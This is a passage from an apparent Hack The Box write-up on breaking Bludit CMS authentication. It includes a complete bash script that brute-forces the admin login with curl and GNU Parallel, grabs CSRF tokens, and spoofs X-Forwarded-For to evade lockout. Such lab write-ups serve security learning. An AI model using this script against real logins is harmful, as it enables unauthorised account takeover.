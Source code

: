 {% include image.html image_alt="64731460.png" image_src="/1931add6-7d26-41c0-9867-592733e4a116/64731460.png" %}

### Breaking Bludit Authentication

According to the documenation, the user `admin` is first created on installation via `install.php`. Subsequently, the `admin` is free to create other users. The authentication mechanism seems pretty water tight to me and since it doesn't store the hashed password in a database, but rather in a flat file, bypassing authentication through SQL injection is not possible. We need to find another way. The tried-and-tested way is by brute-force.

To that end, I wrote the following shell script, with `curl` as the main driver and GNU Parallel to run jobs in parallel.

<div class="filename"><span>brute.sh</span></div>

```bash
#!/bin/bash

USER=$1
PASS=$2
THREAD=$3

function die() {
    killall perl 2>/dev/null
}

export -f die

function check() {

    local HOST=10.10.10.191
    local COOKIE=$(mktemp -u)
    local USER=$1
    local PASS=$2

    # get CSRF token
    CSRF=$(curl -s \
                -c $COOKIE \
                "http://$HOST/admin/" \
           | grep 'tokenCSRF' \
           | grep -Eo 'value=".*"' \
           | sed -r 's/value=//g' \
           | tr -d '"')

    # login attempt
    CODE=$(curl -s \
                -b $COOKIE \
                -d "tokenCSRF=$CSRF&username=$USER&password=$PASS&save=" \
                -H "X-Forwarded-For: 10.10.16.$(($RANDOM % 255))" \
                -w "%{http_code}" \
                -o /dev/null \
                "http://$HOST/admin/")

    if [ $CODE -ne 200 ]; then
        echo "[+] User is $USER, Password is $PASS"
        die
    fi

    rm -f $COOKIE
}

export -f check

parallel -q -j$THREAD check ::: $USER :::: $PASS
```

[1]: https://www.hackthebox.eu/home/machines/profile/254
[2]: https://www.hackthebox.eu/home/users/profile/94858
[3]: https://www.hackthebox.eu/